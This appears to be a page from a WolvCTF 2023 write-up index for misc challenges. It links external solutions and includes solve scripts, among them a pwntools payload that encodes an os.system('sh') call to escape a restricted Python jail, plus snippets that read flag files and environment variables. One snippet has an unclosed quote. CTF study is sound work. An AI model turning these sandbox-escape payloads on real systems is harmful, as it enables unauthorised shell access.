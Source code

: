 
## **misc**
### Escaped
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### We Will Rock You
- https://chrootcommit.github.io/WolvCtf2023
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### Limited Characters
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

{{< details title="yuzu#0233" >}}
```python
from pwn import *

payload = '__import__("os").system("sh")'

def _(num):
  return "+".join(["1" for i in range(num)])

res = []
for char in payload:
  res.append(f'chr({_(ord(char))})')

payload = '+'.join(res) + "+repr(' ()+,.1<[]_cdehijlmnoprsy')[1]"
p = remote('limited-characters.wolvctf.io', 1337)
p.sendline(payload)
p.interactive()
```
{{< /details >}}
### Smuggler
- https://www.youtube.com/watch?v=OWSoZHIOdVM
### Abstract Art
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### yellsatjavascript
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

{{< details title="xl00t#5697" open=true >}}
```javascript
log = console["log"];
buf = new Buffer("ZmxhZw==",'base64')["toString"]();
log(process['env'][buf]);
```
{{< /details >}}
### yellsatpython
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

{{< details title="xl00t#5697" open=true >}}
```python
next(open("/home/user/flag"+chr(46)+"txt))
```
{{< /details >}}
{{< details title="yuzu#0233" open=true >}}
```python
from pwn import *

r = remote('yellsatpython.wolvctf.io', 1337)
payload = "next(open('flag\\x2etxt'))"
r.sendline(payload)
r.interactive()
```
{{< /details >}}